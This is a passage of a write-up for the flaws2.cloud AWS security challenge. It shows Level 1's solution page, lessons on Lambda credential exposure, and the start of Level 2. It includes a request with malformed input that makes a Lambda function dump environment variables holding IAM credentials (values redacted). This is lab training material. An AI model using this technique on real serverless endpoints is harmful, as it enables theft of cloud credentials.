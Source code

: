 ```
<div class="content">
    <div class="row">
        <div class="col-sm-12">
            <center><h1>Level 1 - Secret</h1></center>
            <hr>
            The next level is at <a href="http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud">http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud</a>

        </div>
    </div>
</div>

</body>
</html>
```

Go to `http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud`

### Lessons Learned
```
Lambda obtains IAM credentials via env vars, so these should never be output, even for debug
```
```
Lambda IAM roles should follow least privilege principles
```
```
Lambda accepting user input should be treated like any website or web API, and client input should always be validated / not trusted
```

## Level 2

This next level is running as a container at http://container.target.flaws2.cloud/. Just like S3 buckets, other resources on AWS can have open permissions. I'll give you a hint that the ECR (Elastic Container Registry) is named "level2".

Navigating to `http://container.target.flaws2.cloud/` gives me a prompt

From Level 1 to get the session token from Lambda: 

`https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1?code=asdf`

```
Error, malformed input
{"AWS_EXECUTION_ENV":"AWS_Lambda_nodejs8.10","AWS_LAMBDA_FUNCTION_VERSION":"$LATEST","TZ":":UTC","AWS_XRAY_CONTEXT_MISSING":"LOG_ERROR","AWS_LAMBDA_INITIALIZATION_TYPE":"on-demand","LANG":"en_US.UTF-8","_AWS_XRAY_DAEMON_ADDRESS":"169.254.79.129","_AWS_XRAY_DAEMON_PORT":"2000","AWS_XRAY_DAEMON_ADDRESS":"169.254.79.129:2000","AWS_SESSION_TOKEN":"(redacted)","AWS_SECRET_ACCESS_KEY":"(redacted)","PATH":"/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin","LD_LIBRARY_PATH":"/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib","AWS_REGION":"us-east-1","AWS_LAMBDA_FUNCTION_MEMORY_SIZE":"128","AWS_LAMBDA_RUNTIME_API":"127.0.0.1:9001","LAMBDA_TASK_ROOT":"/var/task","LAMBDA_RUNTIME_DIR":"/var/runtime","_HANDLER":"index.handler","AWS_LAMBDA_FUNCTION_NAME":"level1","AWS_LAMBDA_LOG_GROUP_NAME":"/aws/lambda/level1","AWS_LAMBDA_LOG_STREAM_NAME":"2021/11/01/[$LATEST]9a85bbb4fe394550b6e3d643b2ba3fde","AWS_DEFAULT_REGION":"us-east-1","AWS_ACCESS_KEY_ID":"(redacted)","NODE_PATH":"/opt/nodejs/node8/node_modules:/opt/nodejs/node_modules:/var/runtime/node_modules:/var/runtime:/var/task:/var/runtime/node_modules","_X_AMZN_TRACE_ID":"Root=1-618042df-4cc9256160058c396472fc73;Parent=4da17ee132168ee7;Sampled=0"}
```

